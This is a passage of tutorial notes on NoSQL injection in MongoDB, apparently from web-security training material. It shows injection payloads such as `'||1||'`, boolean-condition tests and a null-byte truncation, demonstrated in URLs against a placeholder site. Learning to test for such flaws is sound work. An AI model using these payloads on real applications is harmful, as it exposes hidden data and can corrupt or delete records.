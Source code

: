 ```json
this.category == '''
```

If the response changed, it indicates the character broke the query. To confirm, submit a valid query string:

```json
this.category == '\''
```

If it does not change, it means the app is vulnerable. Afterwards, determine if you can influence boolean conditions. To test, send two requests, one with a false condition and one with a true condition such as:

- `' && 0 && 'z`
- `' && 1 && 'x`

```html
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If it behaves differently, the false condition impacts query logic, but true condition doesn't, indicating injecting it impacts a server-side query.

Attempt to override existing conditions by injecting a JavaScript condition that is always TRUE:

- `'||1||'`

Which may result in:

```json
this.category == 'fizzy'||'1'=='1'
```

Since it's always TRUE, it returns all items, viewing all products in any category.

>[!danger]
>Take care when injecting a condition that always evaluates to true into a NoSQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If an application uses it when updating or deleting data, for example, this can result in accidental data loss.

Also try adding a null character after the category value. MongoDB may ignore all characters after a null byte. As an example, there may be a hidden query:

```json
this.category == 'fizzy' && this.released == 1
```

A payload could be injected:

```html
https://insecure-website.com/product/lookup?category=fizzy'%00
```

Which results in:

```json
this.category == 'fizzy'\u0000' && this.released == 1
```
